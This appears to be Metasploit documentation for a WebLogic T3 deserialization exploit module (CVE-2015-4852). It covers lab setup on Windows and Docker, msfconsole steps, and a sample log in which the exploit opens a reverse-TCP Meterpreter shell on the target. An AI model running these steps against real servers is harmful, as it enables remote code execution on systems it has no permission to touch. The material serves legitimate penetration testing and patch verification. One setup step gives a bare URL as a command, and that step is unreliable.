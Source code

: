 ## Description
Oracle WebLogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerability
(CVE 2015-4852), which can be used to execute code on vulnerable systems. An unauthenticated user with network access
via T3 could exploit the vulnerability. This module has been tested against Oracle WebLogic Server v10.3.6.0 and
v12.1.3.0 running on Windows 7 x64 using JDK v7u80.

Note that successful exploitation will output the following warning to the admin server console:

```
&lt;Mar 26, 2019 4:13:24 PM CDT&gt; &lt;Error&gt; &lt;RJVM&gt; &lt;BEA-000503&gt; &lt;Incoming message header or abbreviation processing failed
java.lang.ClassCastException: java.lang.Integer cannot be cast to java.util.Set
java.lang.ClassCastException: java.lang.Integer cannot be cast to java.util.Set
        at $Proxy57.entrySet(Unknown Source)
        at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:327)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:39)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:25)
        Truncated. see log file for complete stacktrace
```

### Setup (Windows)

Use the following steps to install a vulnerable instance of WebLogic v10.3.6.0 on a Windows 7 SP1 x64 system.

1. Install the Java SE Development Kit 7 Update 80 (64-bit version) from [Oracle][1] (use the `jdk-7u80-windows-x64.exe`
  installer). Leave all options at their default values.
1. Download "Oracle WebLogic Server 10.3.6" from their [site][2]. Select the generic installer under the "Installers
  with Oracle WebLogic Server and Oracle Coherence" section, the file is named `wls1036_generic.jar`. You may need to
  register an account.
1. From an administrative command prompt, use java to run the jar file.
    * Run: `"C:\Program Files\Java\jdk1.7.0_80\bin\java.exe" -jar wls1036_generic.jar`
1. Leave all options at their default values.
    * OPTIONAL: When prompted to register for security updates, uncheck "I wish to receive security updates via My
      Oracle Support" and confirm that you do in fact wish to remain uninformed of *critical security* issues.
    * When prompted to select the installation type, use the default "Typical" setting.
    * At the end, leave "Run Quickstart" checked and select "Done".
1. From the Quick Start menu, select "Getting started with WebLogic Server 10.3.6" to launch the configuration wizard.
1. Complete this wizard using all of the default values.
    * When prompted to enter a password, set any desired value. Knowledge of the password is not required in order to
      demonstrate this vulnerability or modify any settings in the future.
1. Start the service by navigating to the Start Menu and selecting: `All Programs > Oracle WebLogic > User Projects >
  base_domain > Start Admin Server for WebLogic`.

### Setup (Linux)

Use the following steps to install a vulnerable instance of WebLogic v10.3.6.0 in a Docker container. The same image
used to demonstrate [CVE-2017-10271][3] can be used.

1. Use git to clone the vulhub/vulhub repository from GitHub.
    * Run: `https://github.com/vulhub/vulhub`
1. From within the `weblogic/CVE-2017-10271` subdirectory, use Docker to run the image.
    * Run: `docker-compose up -d`
    * TCP port 7001 should now be listening on the host machine.

## Vulnerable Application
Oracle WebLogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0.

## Verification Steps
1. `./msfconsole -q`
2. `use exploit/multi/misc/weblogic_deserialize_rawobject`
3. `set rhosts <rhost>`
4. `set rport <srvport>`
5. `exploit`

## Scenarios
### Windows 7 x64 running Oracle WebLogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
```
msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rhost 192.168.192.6
rhost => 192.168.192.6
msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rport 7001
rport => 7001
msf exploit(multi/misc/weblogic_deserialize_rawobject) > exploit

[*] Started reverse TCP handler on 192.168.192.136:4444 
[*] 192.168.192.6:7001 - Sending handshake...
[*] 192.168.192.6:7001 - Sending T3 request object...
[*] 192.168.192.6:7001 - Sending client object payload...
[*] Sending stage (179779 bytes) to 192.168.192.6
[*] Meterpreter session 7 opened (192.168.192.136:4444 -> 192.168.192.6:49266) at 2018-12-14 11:40:29 -0800

meterpreter > sysinfo
Computer        : GIOTTO-HS-W7
OS              : Windows 7 (Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
